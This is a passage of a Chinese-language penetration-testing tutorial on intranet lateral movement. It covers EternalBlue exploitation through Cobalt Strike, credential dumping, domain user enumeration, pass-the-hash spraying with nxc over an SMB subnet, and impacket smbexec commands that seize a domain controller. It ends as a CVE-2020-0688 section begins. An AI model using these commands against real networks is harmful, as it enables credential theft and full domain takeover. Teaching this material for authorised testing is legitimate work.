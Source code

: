 连上隧道直接开扫即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85PjfmlmF1Loj5CERBRvV877icbROlrqHwuIwG4aS2as7lFhqQibiczvmic9GhLmA/640?wx_fmt=png&from=appmsg "")  
  
存在永恒之蓝，直接用cs插件攻击  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85PjfmlaicvqRic41a5ibSDznGQKAib5ibSaPiajLxdP0YRqTibOq2f3tWicqoV1laH6g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85Pjfml7ia74OFvckNxuGH6orj9D2sCLUuDic2B7fTAIyac0ccyuAHbfRqGGibLg/640?wx_fmt=png&from=appmsg "")  
  
5.2密码喷洒（国外内网演示）  
  
通过cs抓取密码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibibyht5uWXOeI4Clw03FQrXV402AXsU2uyKNhVoiacUQxu9sVD7TgwsShfXAYZgTj19n0RAUdGkGEXA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85PjfmlMlo1z7pICQaXoFezN4wAnhysSCjSB5NsrFLfWkfNa8yxmDh2Vjo5Qg/640?wx_fmt=png&from=appmsg "")  
  
net user /domain，查看域用户名信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibibyht5uWXOeI4Clw03FQrXVmMoH5WPy1GP4hsYd7gHrkqd4RRlJNrGeiapGJjPHoicT80mqoZyCibib8A/640?wx_fmt=png&from=appmsg "")  
  
将密码和用户名写成字典进行密码喷洒，可以使用  
nxc，CrackMapExec工具进行密码喷洒，  
其中CrackMapExec在kali上自带。  
  
nxc工具可以使用不同的协议进行喷洒  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibibyht5uWXOeI4Clw03FQrXVotppy3iayCAU3kGznELA8BMfKoXrmKug7QHI0Hswibevib8cZA7KxRbrA/640?wx_fmt=png&from=appmsg "")  
  
以nxc演示，将抓取到的用户名和hash密码保存txt进行喷洒，这里使用的是smb，也可以使用其他协议进行喷洒  
  
nxc.exe smb 192.168.2.21/24 -u user.txt -H pass.txt  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibibyht5uWXOeI4Clw03FQrXVAxI8kScepM5EjoYhvkyqqYFq23sTtS3VWhrPScreFxRbF54OibsibJOQ/640?wx_fmt=png&from=appmsg "")  
  
使用  
impacket工具，获取192.168.2.5域控权限，  
  
python smbexec.py -hashes :哈希密码 域名/账号@ip  
  
或者：python smbexec.py   
域名/账号:明文密码@ip，  
  
例如  
python smbexec.py sqlserver/administrator:123456@192.168.3.3  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibibyht5uWXOeI4Clw03FQrXV2Ta9lS1kTF9z0wfajNWcST5sRVIuibK64icgRJ4ic0fARs34B4kmbb5mA/640?wx_fmt=png&from=appmsg "")  
  
5.3漏洞横向（本地内网靶机演示）  
  
**5.3.1 CVE-2020-0688**  
  
**前提条件：开启了exchang服务**  
  
通过spn扫描可知开启了  
exchang服务  
，  
0day.org为域名  
  